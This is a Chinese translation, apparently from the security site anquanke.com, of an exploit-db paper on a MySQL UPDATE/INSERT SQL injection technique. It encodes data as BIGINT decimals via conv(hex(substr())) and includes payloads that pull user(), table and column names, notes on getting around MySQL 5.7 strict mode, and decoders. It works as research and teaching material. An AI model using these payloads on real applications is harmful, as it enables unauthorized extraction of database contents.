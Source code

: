 > 原文链接: https://www.anquanke.com//post/id/85487 


# 【技术分享】一种新的MySQL下Update、Insert注入方法


                                阅读量   
                                **239171**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：exploit-db.com
                                <br>原文地址：[https://www.exploit-db.com/docs/41275.pdf](https://www.exploit-db.com/docs/41275.pdf)

译文仅供参考，具体内容表达以及含义原文为准



[![](https://p3.ssl.qhimg.com/t01b1716e4413fc281a.png)](https://p3.ssl.qhimg.com/t01b1716e4413fc281a.png)

翻译：[testvul_001](http://bobao.360.cn/member/contribute?uid=780092473)

预估稿费：100RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿



**前言**

目前我们一般通过报错和时间盲注来对update和insert语句进行SQL注入，下面我们来讲解一种新的获取数据的方法。

首先我们来看一个简单的例子，假设应用会将username字段的结果会返回给我们：

```
$query = "UPDATE users SET username = '$username' WHERE id = '$id';";
```

HTTP应用中的参数是这样的：

```
username=test&amp;id=16
```

我最近研究的带内，带外攻击技巧刚好适用于这个场景，要理解我的技巧，我们可以先看下Mysql 是如何处理字符串的。在Mysql 中一个字符串等于 ‘0’，我们来看一下：

[![](https://p1.ssl.qhimg.com/t01cc281a4e0b2273e5.png)](https://p1.ssl.qhimg.com/t01cc281a4e0b2273e5.png)

假如我们把字符串和数字相加，结果和0 加这个数字一样：

[![](https://p2.ssl.qhimg.com/t01a5d3f314475c813a.png)](https://p2.ssl.qhimg.com/t01a5d3f314475c813a.png)

Mysql的这个属性给了我一些灵感，我们来看看BIGINT的最大值加上一个字符串会怎样？

[![](https://p4.ssl.qhimg.com/t01b604af8353f73320.png)](https://p4.ssl.qhimg.com/t01b604af8353f73320.png)

结果是 ‘1.8446744073709552e19’，这表明字符串实际上作为八字节的DOUBEL类型来处理。

[![](https://p4.ssl.qhimg.com/t0100a4f0da080b0577.png)](https://p4.ssl.qhimg.com/t0100a4f0da080b0577.png)

将一个DOUBLE类型和大数字相加会返回IEEE格式的值，为了解决这个问题我们可以使用OR。

[![](https://p3.ssl.qhimg.com/t0137dca0c4a3280ddb.png)](https://p3.ssl.qhimg.com/t0137dca0c4a3280ddb.png)

现在我们得到了最大的64bit无符号的BIGINT值0xffffffffffffffff。我们需要注意通过OR获取数据时，这个值必须小于BIGINT（不能超过64bit）。

<br>

**转换字符串为数字**

为了获取数据我们可以将应用输出的字段转换为数字，然后再解码回来，如下步骤：

```
String -&gt; Hexadecimal -&gt; Decimal
```

[![](https://p4.ssl.qhimg.com/t010a9008eb233745ae.png)](https://p4.ssl.qhimg.com/t010a9008eb233745ae.png)

通过SQL，Python和Ruby等语言我们可以将数字转回字符串，如下：

```
Decimal -&gt; Hexadecimal -&gt; String
```

[![](https://p3.ssl.qhimg.com/t0162c38655fe29fbab.png)](https://p3.ssl.qhimg.com/t0162c38655fe29fbab.png)

如上面提到的，Mysql中的最大值为BIGINT，我们不能超过它，也就是说每次提取的字符串不能超过8位。

[![](https://p0.ssl.qhimg.com/t01844be893e5213c30.png)](https://p0.ssl.qhimg.com/t01844be893e5213c30.png)

4702111234474983745可以被解码为AAAAAAAA，如果再加一个A,我们就不能正确解码了，因为返回的结果会是无符号的BIGINT值0xffffffffffffffff。

[![](https://p1.ssl.qhimg.com/t0164cc3747191e6a88.png)](https://p1.ssl.qhimg.com/t0164cc3747191e6a88.png)

如果需要获取的数据超过8个字节，我们需要使用substr()方法来将数据分片。

```
select conv(hex(substr(user(),1 + (n-1) * 8, 8 * n)), 16, 10);
```

n的取值为1、2、3…比如我们要获取的username长度超过8个字符，我们首先获取前八个字符，然后继续获取后面的8个直到得到NULL。

[![](https://p3.ssl.qhimg.com/t0112037d2bc764e2c3.png)](https://p3.ssl.qhimg.com/t0112037d2bc764e2c3.png)

最后我们把user()函数获得的数据解码。

[![](https://p2.ssl.qhimg.com/t01a7a74317de6f00ae.png)](https://p2.ssl.qhimg.com/t01a7a74317de6f00ae.png)

<br>

**注入技巧**

**获取表名**

```
select conv(hex(substr((select table_name from information_schema.tables where table_schema=schema() limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);
```

**获取列名**

```
select conv(hex(substr((select column_name from information_schema.columns where table_name=’Name of your table’ limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);
```

**利用UPDATE语句**

下面我们通过一个例子来说明如何利用更新语句。

[![](https://p4.ssl.qhimg.com/t01a73d6a1edd5b0f4d.png)](https://p4.ssl.qhimg.com/t01a73d6a1edd5b0f4d.png)

实际的查询语句可能是这样的：

[![](https://p5.ssl.qhimg.com/t011d353490f781c9c2.png)](https://p5.ssl.qhimg.com/t011d353490f781c9c2.png)

[![](https://p3.ssl.qhimg.com/t01f035c0c8d3056e1c.png)](https://p3.ssl.qhimg.com/t01f035c0c8d3056e1c.png)

**利用INSERT语句**

原始SQL语句如下：

```
insert into users values (17,'james', 'bond');
```

我们可以像update语句中一样获取数据：

```
insert into users values (17,'james', 'bond'|conv(hex(substr(user(),1 + (n-1) * 8, 8* n)),16, 10);
```



**<br>**

**MySQL 5.7中的限制**

你可能注意到这种方法在MySQL 5.7.5之后的版本并不奏效。

[![](https://p5.ssl.qhimg.com/t01b2d273751c10ecc4.png)](https://p5.ssl.qhimg.com/t01b2d273751c10ecc4.png)

通过研究MySQL 5.7发现Mysql服务器默认运行在‘Strict SQL Mode’下，在MySQL 5.7.5里，默认的模式包含‘STRICT_TRANS_TABLES’。在 ‘Strict SQL Mode’ 下我们不能将integer转换为string。

[![](https://p5.ssl.qhimg.com/t01b58383a4c7198204.png)](https://p5.ssl.qhimg.com/t01b58383a4c7198204.png)

为了解决这个问题，我们需要在注入时一直使用一个integer类型，这样就不会有任何问题了。

[![](https://p4.ssl.qhimg.com/t01c0f333a1564337c4.png)](https://p4.ssl.qhimg.com/t01c0f333a1564337c4.png)

另外任何用户都可以在他的会话里关闭‘Strict Mode’。

[![](https://p2.ssl.qhimg.com/t01b1d78f1a0b9799a9.png)](https://p2.ssl.qhimg.com/t01b1d78f1a0b9799a9.png)

如果想设置影响所有客户端的全局属性需要SUPER权限。

[![](https://p5.ssl.qhimg.com/t01705d4634503b37c6.png)](https://p5.ssl.qhimg.com/t01705d4634503b37c6.png)

开发者也可以使用‘IGNORE’关键字来忽略‘Strict Mode’，如‘INSERT IGNORE’或者‘UPDATE IGNORE’。

[![](https://p4.ssl.qhimg.com/t018bc3ee06bf7f0821.png)](https://p4.ssl.qhimg.com/t018bc3ee06bf7f0821.png)

<br>

**解码Decoding**

SQL

```
select unhex(conv(value, 10, 16));
```

Python

```
dec = lambda x:("%x"%x).decode('hex')
```

Ruby



```
dec = lambda { |x| puts x.to_s(16).scan(/../).map { |x| x.hex.chr }.join }或
dec = lambda { |x| puts x.to_s(16).scan(/w+/).pack("H*") }
```
